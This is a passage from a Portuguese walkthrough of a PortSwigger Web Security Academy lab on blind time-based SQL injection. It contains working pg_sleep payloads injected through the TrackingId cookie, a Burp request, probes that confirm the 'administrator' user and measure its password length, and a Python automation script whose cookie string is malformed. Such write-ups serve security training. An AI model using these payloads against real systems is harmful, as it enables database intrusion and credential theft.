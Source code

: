 Nessa query estamos fazendo uma comparação entre 1 e 1, caso a comparação seja verdadeira, o banco de dados irá esperar 10 segundos, caso seja falsa, irá esperar 0 segundos. Isso é feito para que possamos descobrir se o banco de dados está vulnerável a SQL Injection.

Porem antes precisamos encodar em URL para que funcionem corretamente.

```sql
'%3bSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

Agora basta modificar a requisição no Burp Suite e enviar para o aplicativo.

```http
GET / HTTP/1.1
Host: 0ad300c503da1d9cc00e271b00ad00e6.web-security-academy.net
Cookie: TrackingId=Bo6DofnwE7hELTVL'%3bSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

<div class="page"/>

Agora precisamos verificar se existe um usuário com o nome `administrator` na tabela users, para isso vamos utilizar o seguinte payload:

```sql
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
Perceba que o payload já está encodado em URL.

Como após o envio da requisição o aplicativo demora 10 segundos para responder, podemos concluir que o usuário `administrator` existe na tabela users.

Agora precisamos descobrir o tamanho da senha do usuário `administrator`, para isso vamos utilizar o seguinte payload:

```sql
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--
```

Onde vamos incrementar o valor de 1 até que o tempo de resposta seja menor que 3 segundos, assim podemos concluir que o tamanho.

Fazer isso manualmente daria muito trabalho, então vamos utilizar o seguinte script para automatizar o processo:

```python
import requests

url = "https://0ad300c503da1d9cc00e271b00ad00e6.web-security-academy.net/"

for i in range(1, 30):
    cookies = {"TrackingId":"TrackingId=TrackingId=Bo6DofnwE7hELTVL'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>"+str(i)+")+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--"}

    r = requests.get(url, cookies=cookies)

    if r.elapsed.total_seconds() < 2:
        print("O tamanho da senha é: " + str(i))
```